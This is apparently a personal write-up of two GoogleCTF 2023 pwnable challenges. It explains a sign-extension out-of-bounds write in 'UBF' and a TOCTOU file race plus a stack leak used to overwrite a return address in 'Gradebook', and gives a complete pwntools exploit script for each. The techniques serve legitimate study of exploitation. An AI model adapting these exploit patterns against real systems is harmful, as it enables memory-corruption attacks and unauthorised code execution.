

I had a good weekend playing GoogleCTF 2023 with `The Council of Sheep` aliased as `nopnop` (CTFTime please help us change our name back...), we are placed top 32nd and I solved 5 pwnable challenges, but for this writeup I will write about the challenges that I think are the most interesting challenges.


## UBF

> Please review and test this Unnecessary Binary Format (UBF)!

The challenge is a binary which parses our input data into data structures. But before doing anything, the challenges load the contents from files to environment variables, specifically `/motd` to `$MOTD`, `/team` to `$TEAM`, `/flag` to `FLAG`.

Our input data will then be base64-decoded into a byte stream. The byte stream could hold multiple adjacent entries of data, these entries will then be unpacked through `unpack_entry`, there are checks on how to craft the entry headers, data packets,...


Into `unpack_entry` we do know that for each entry there is a corresponding struct to parse data from the byte stream into and there are three types of data available, `string type`, `boolean type`, `integer type` represented with `s`, `b`, `i`.


Each of type will have its corresponding unpack function. To be more specific after reversing for a while I've knew that the for a string type entry will have its struct looks like this:


More importantly, strings that have first character is `'$'` will be treated as environment variable, so basically we could get the environment variables which was set at the beginning of the program and others environment variable. From this we can get the flag easily, right?


Well, kind of, if you had fully reversed the program, you will realize that there is a function that detects the flag with the pattern `'CTF{'` and replaces all flag characters with Xs on the way printing out the strings.


But no worries, if you has debugged the `unpack_entry` function you'll notice that there's a value from our input to be parsed incorrectly into the struct. In the picture below the program tries to move a word sized value into a dword sized register, but the word value is a signed number, so when a negative value (0x8000<=n<=0xffff) meets the movsx (sign-extend operator) the sign will also be extended.



This value again will be used in `fix_corrupt_booleans` as offset to modify values without any check.


This is clearly an out of bound, and the flag also lies on the heap, so I used this out of bound to modify the flag pattern so `censor_string` won't recognize it's the flag, for the remote session I get all motd, team and flag back to local and setup the docker to replicate the remote environment and brute it to get the offset, after getting the offset.

```python
from pwn import *
from base64 import b64encode

def pwn(idx):
    io = remote('ubf.2023.ctfcompetition.com', 1337)
    #io = remote('localhost', 1337)

# boolean

    raw_payload = p32(0x1)
    raw_payload += b'b'
    raw_payload += p16(0x1)
    raw_payload += p16(0xffff-9529)
    raw_payload += p8(0x20) * 0x1

# string

    raw_payload += p32(0x1000)
    raw_payload += b's'
    raw_payload += p16(1)
    raw_payload += p16(2)
    raw_payload += p16(5)
    raw_payload += b'$FLAG'

    payload = b64encode(raw_payload)

    print(payload)
    io.sendlineafter(b'encoded:\n', payload)
    res = io.recvall()
    if b'CTF{XXXX' not in res and b'TF{' in res:
        exit(1)
    print(res)
    io.close()

pwn(0)
```

## Gradebook

> They change the password every couple of weeks, but I know where they write it down.

I solved this challenge over-time but I thing I learnt something new from it so this is it anyway <3

The binary prepared the "win" for me, that's a great start. After had analyzed the target for a while. I will tear down the target into the main functionality and structures.

The binary is like a book manager application, with each book belongs to each student. The book structure looks like this

```c
struct gradebook {
    uint32_t default; // default "\x47\x52\xAD\xE5" taken from sample gradebook attachment
    uint32_t trash; // doesn't really matter
    char student_lastname[0x20];
    char student_firstname[0x20];
    uint64_t filesz; // the same as real file size returned by fstat(), will be checked for gradebook corruption
    uint64_t offset_for_first_chunk; // default point to first chunk
    uint64_t offset_for_current_chunk; // n with n >= 0x60 and n <= filesz, will be added with 0x40 everytime a new row is added (will be checked for gradebook corruption)
    // start of first chunk
    char class[0x8];
    char course_title[0x16];
    char grade[0x2];
    char teacher[0xc];
    uint32_t room;
    uint32_t period;
}
```

After uploading a gradebook and open it the gradebook will be opened and mmaped at address `0x4752ade50000` with the file descriptor returned by open as its backed file descriptor.


After the gradebook struct, the gradebook list behaves like a linked-list (traverse by + 0x38 for each).


With the gradebook behaves like a linked-list, every task performed on it (ADD_GRADE, UPDATE_GRADE, REMOVE_GRADE, DOWNLOAD_GRADEBOOK, CLOSE_GRADEBOOK) is kinda straight forward so you can do the challenge to see it by yourself, I not need going too deep into every function since it's not really nescessary.

One thing I started to notice after had jumped back and forth, the binary will save each gradebook in a file (in tmp folder) with your arbitrary name and mmaped it, these tasks are all performed in a single session.

Of course the file size and first grade offset provided in the file uploaded and opened by user will be check in the first place.


But again, since the gradebook file is saved in a file in the tmp folder with your arbitrary name, you can reupload the file twice too overwrite the content after it has been checked. It's a TOCTOU attack:

* Open session A.
* session A: upload the valid gradebook file.
* session A: the file has been checked and there will be no other file size check beyond this point.
* Open session B.
* session B: Overwrite the gradebook file with malicious data. At this place session will inform you that the file is invalid and the file will not be opened and mmapped (but the malicious data has already been written into the gradebook file that session A is working on!)
* Close session B.
* session A: malicious behaviors!!!

What I do with this bug is I will overwrite the file_sz into (uint64_t)-1 so now I could indicate the first gradebook with arbitrary offsets.

But the binary is turned on Position-Independent-Executables so I need a leak.

Debugging for a while and I realized there's a potential stack pointer leak.


The binary memset 0x48 bytes starting from $rax with "SPACE" character. And right next after that 0x48 bytes is a stack pointer.

And right after that memset I see the program use memcpy with maximum input that user is allowed to input, which means the null-terminator from scanf is pretty useless here if we input maximum number of character allowed.

The stack leak combined with the arbitrary offset from the gradebook allows me changing the return pointer to the win function.

Strategy:

- Write valid gradebook.
- Stack pointer leak.
- Overwrite the gradebook again with the file size as (uint64_t)-1 and offset_for_first_chunk as the correct offset such that (first_chunk + 0x1e) = return pointer (check_gradebook_and_execute+145).
- Update_gradebook with the last LSB of win function.

```python
from pwn import *
import sys

DEBUG = 0


def info(classr : bytes,
         course_title : bytes,
         grade : bytes,
         teacher : bytes,
         room : int,
         period :int):
    inf = classr.ljust(0x8, b' ')
    inf += course_title.ljust(0x16, b' ')
    inf += grade.ljust(0x2, b' ')
    inf += teacher.ljust(0xc, b' ')
    inf += p32(room)
    inf += p64(period)
    print(hex(len(inf)))
    return inf


def gradebook(filesz : int,
              offset_current_chunk : int,
              sus : int,
              studentfirstname : bytes,
              studentlastname : bytes,
              classr : bytes,
              course_title : bytes,
              grade : bytes,
              teacher : bytes,
              room : int,
              period :int):
    # classr: dc
    signature = 0x20
    grdbk = b'\x47\x52\xAD\xE5'
    grdbk += p32(signature)
    grdbk += studentlastname.ljust(0x20, b'\0')
    grdbk += studentfirstname.ljust(0x20, b'\0')
    grdbk += p64(filesz) # file sz
    grdbk += p64(offset_current_chunk) # <-- offset to current chunk
    grdbk += p64(sus) # <-- must not be smaller than 0x60
    grdbk += b'A'*0x38+p64(0)
    grdbk += info(classr=classr,
                  course_title=course_title,
                  grade=grade,
                  teacher=teacher,
                  room=room,
                  period=period)
    
    grdbk += b'\0'*0x100
    
    print(hex(len(grdbk)))
    f = open('/tmp/grades_60bc167766f388675d09e6deb7b1e38c', 'wb')
    f.write(grdbk)
    f.close()
    return grdbk


while 1:
    if DEBUG:
        io1 = process('./chal')
    else:
        io1 = remote('gradebook.2023.ctfcompetition.com', 1337)
    pause()
    book = gradebook(0xb0,
                    0x60,
                    0x60,
                    b'Billy',
                    b'Grade',
                    b'A'*8,
                    b'A'*0x16,
                    b'A'*0x2,
                    b'A'*0xc,
                    0x12345678,
                    0x12345678)
    io1.sendlineafter(b'PASSWORD:\n', b'pencil')
    io1.sendlineafter(b'QUIT\n\n', b'2')
    io1.sendlineafter(b'NAME:\n', b'/tmp/grades_60bc167766f388675d09e6deb7b1e38c')
    io1.sendlineafter(b'ENTER FILE SIZE:\n', str(len(book)).encode())
    io1.sendafter(b'SEND BINARY FILE DATA:\n', book)
    io1.sendlineafter(b'QUIT\n\n', b'1')
    io1.sendlineafter(b'NAME:\n', b'/tmp/grades_60bc167766f388675d09e6deb7b1e38c')

    io1.recvuntil(b'AAAA     ')
    try:
        stack = u64(io1.recvline()[0:-1]+b'\0\0')
    except:
        io1.close()
        continue
    log.info('stack: '+hex(stack))
    log.info('offset: '+hex(stack - 0x4752ade50000 - 0x1e))

    if DEBUG:
        io2 = process('./chal')
    else:
        io2 = remote('gradebook.2023.ctfcompetition.com', 1337)
    book2 = gradebook(0xffffffffffffffff,
                    (stack - 0x4752ade50000 - 0x46),
                    (stack - 0x4752ade50000 - 0x46),
                    b'Billy',
                    b'Grade',
                    b'A'*8,
                    b'A'*0x16,
                    b'A'*0x2,
                    b'A'*0xc,
                    0x12345678,
                    0x12345678)
    io2.sendlineafter(b'PASSWORD:\n', b'pencil')
    io2.sendlineafter(b'QUIT\n\n', b'2')
    io2.sendlineafter(b'NAME:\n', b'/tmp/grades_60bc167766f388675d09e6deb7b1e38c')
    io2.sendlineafter(b'ENTER FILE SIZE:\n', str(len(book2)).encode())
    io2.sendafter(b'SEND BINARY FILE DATA:\n', book2)
    io2.sendlineafter(b'QUIT\n\n', b'3')
    io2.close()

    io1.sendlineafter(b'QUIT\n\n', b'2')
    io1.sendlineafter(b'WHICH GRADE:\n', b'1')
    io1.sendlineafter(b'NEW GRADE:\n', p16(0x86e0+1))
    res = io1.recvall()
    io1.close()
    if (b'CTF{' in res):
        print(res)
        break
```